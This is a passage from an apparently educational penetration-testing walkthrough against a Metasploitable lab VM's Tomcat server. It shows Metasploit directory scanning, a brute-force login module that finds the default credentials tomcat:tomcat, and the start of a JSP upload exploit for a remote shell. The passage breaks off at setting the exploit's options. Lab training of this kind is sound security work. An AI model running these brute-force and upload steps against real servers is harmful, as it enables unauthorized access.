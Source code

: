 ```
[*] Found http://10.0.0.27:8180/webdav/ 200 (10.0.0.27)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(dir_scanner) >
```
These turn up some interesting pages that can potentially be bypassed:
```
Tomcat admin.png

Tomcat webdav.png
Metasploit Modules for Tomcat
```
The recon we do feeds into the choice of Metasploit modules that we make. First, we have a login page - this provides us with a way to brute-force login credentials. Second, we have a WebDAV interface, and a potential avenue for uploading a PHP shell. Third, the server works much like the Apache server, and is susceptible to denial of service attacks.
### Login Credentials

```
msf > use auxiliary/scanner/http/tomcat_mgr_login
```
We'll definitely want to try blank passwords. Let's set some options:
```
msf auxiliary(tomcat_mgr_login) > workspace metasploitable
[*] Workspace: metasploitable
msf auxiliary(tomcat_mgr_login) > set BLANK_PASSWORDS true
BLANK_PASSWORDS => true
msf auxiliary(tomcat_mgr_login) > set RHOSTS 10.0.0.27
RHOSTS => 10.0.0.27
msf auxiliary(tomcat_mgr_login) > set USER_AS_PASS true
USER_AS_PASS => true
msf auxiliary(tomcat_mgr_login) > set RPORT 8180
RPORT => 8180

Now fire it up:

msf auxiliary(tomcat_mgr_login) > run

[+] 10.0.0.27:8180 - LOGIN SUCCESSFUL: tomcat:tomcat

```
Success! The username/password tomcat/tomcat will get us access to the server.
### Uploading Java Executable with Metasploit

Just as obtaining a remote shell on the web server with Apache required uploading and executing a PHP script (see Metasploitable/Apache/DAV), obtaining a remote shell on the web server will require uploading and executing a file - but for Tomcat, the executable must be a JSP (JavaServer Pages) application.
#### Automated Metasploit File Upload

This is contained in the tomcat_mgr_upload module:
```
msf auxiliary(dir_scanner) > use exploit/multi/http/tomcat_mgr_upload

```
Set Metasploit Options
